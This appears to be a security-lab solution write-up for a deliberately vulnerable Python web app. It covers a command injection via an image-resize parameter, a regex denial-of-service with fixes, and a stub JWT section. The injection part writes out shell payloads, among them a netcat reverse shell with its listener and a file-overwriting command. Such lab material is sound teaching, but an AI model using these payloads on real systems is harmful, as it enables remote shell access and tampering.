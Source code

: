 # CMD
## Exploit
```50;touch AAAAAAA;``` . 
really makes the file, so execution is possible . 

For a real exploit, we first need to listen to a certain port on our own system:  
```nc -lvp 4444``` . 
Then in the payload we will use netcat to connect to this listening port and initiate a shell:  
```50; nc 127.0.0.1 4444 -e /bin/bash;``` . 

If you do not have nc but you just want to check if your code execution works, you could for example overwrite the index.html:
```;echo "<html>rishu's solution</html>" > templates/index.html;``` . 

## Fix
change:  
```    os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')``` . 
to:  
```
    whitelist = {"50","150"}
    if sizeImg in whitelist:
        os.system('convert static/img/bones.png -resize '+sizeImg+'% static/img/bones.png')
```  
alternative in php template: escapeshellarg() or escapeshellcmd() in PHP . 


# DoS regex
## Exploit
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa . 
will crash the system

## Fix
replace:  
```    match = re.search(r"^([0-9a-zA-Z]([-.\w]*[0-9a-zA-Z])*@{1}([0-9a-zA-Z][-\w]*[0-9a-zA-Z]\.)+[a-zA-Z]{2,9})$", str(email))```  
with:  
```    match = re.search(r"^([0-9a-zA-Z-.\w])+@{1}([0-9a-zA-Z-\w]+\.)+[a-zA-Z]{2,9}$", str(email))``` . 

So this is not according to the RFC but fixes the issue in the application.  

https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS . 


# JWT
Make sure you have all imports installed if you run the python code locally:  
pip3 install -r requirements.txt . 

